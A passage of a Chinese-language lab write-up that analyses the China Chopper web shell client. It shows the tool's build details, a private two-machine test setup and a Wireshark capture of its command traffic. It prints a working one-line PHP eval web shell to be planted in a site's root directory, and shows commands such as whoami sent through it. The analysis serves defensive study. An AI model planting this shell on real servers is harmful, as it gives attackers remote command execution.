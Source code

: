 脱壳成功后在放入 peid 检测一下看看，得知使用 vc++6.0 开发的，用 C++ 写的。

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicw01ibp5KNh3hQ6BwSxONb0dej0D6vtt1o0aDlOjaWCn8InlhzyzeL7A/640?wx_fmt=png)

2.2 动态分析菜刀
----------

> 环境：
> 
> 靶机：Windows server 2003 –192.168.1.134
> 
> 攻击机：Windows 7–192.168.1.131

在靶机上写一个 php 一句话放在网站的根目录下，如 caodao.php, 内容为

```
<?php @eval($\_POST\['chopper'\]);?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoic7FN2bufqTO8XicIWjrRZvUASnXRDfAmtvicSRlx8knP5XtFqibu8LgmEA/640?wx_fmt=png)

然后在攻击机上使用菜刀连接

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoic5c4c5jXAVp4D19pcJlxF8VcK4YJ7OauTt7cZh80nyicVbwK6ibEZ019Q/640?wx_fmt=png)

成功连接上

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicjvERlxojibULkBRfo8PvoicRMepSnRzorwL6q6FTVich7ibARibzlxEickug/640?wx_fmt=png)

开启 wireshark 监听本地的数据包，

过滤规则写 ip.addr=192.168.1.131, 然后返回菜刀，

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoic89wV0ZAIzAYsjEnjvicFk0wKOXeKicicmMtz0icmufamRPO0CSUnFdSnSA/640?wx_fmt=png)

输入 netstat -an | find “ESTABLISHED” 或者 whoami 这类 cmd 命令

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoiceHCDoxNo3umlyKtYHXdgFNobVG15VPwOXibSu7nRbQh9RxLhv8kaaHA/640?wx_fmt=png)

然后在 wireshark 中找到靶机和攻击机的 ip 地址

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoic54ibKg8VSC35icuicZNKXHiajqoAPytBrGvZwhpnBrlopP1F3ue8R9uCuA/640?wx_fmt=png)

给攻击机和靶机通信的数据包加上颜色，方便查看

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicbMd0c11HCo2AAYacibNN9Ql8cmDFrDEOqsYBqImplOK5EMS4NiaIcmAg/640?wx_fmt=png)

找到靶机和攻击机通过 HTTP 协议通信的数据包，按下图操作，我们可以追踪 tcp 流来查看整个 tcp 数据交互过程

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoiciauyI8vn4icXlQBGtka1iaQQJqialPLlGDibovxDo6BAysQRUMaNDmny5MA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic2PwZ0Wias6sXXa8G2GQnKoicmPYPFxz5wlOWhRTpaQib841JM2EO0es4xVu8PHHAqsfgPTSkmMcpNcw/640?wx_fmt=png)

上面红色部分为攻击机 POST 提交控制命令的内容，下面蓝色部分为靶机返回结果

从红色部分我们可以看到一共有 z0,z1,z2 三个参数，我们使用 burpsuite 自带的 decoder 模块进行解码

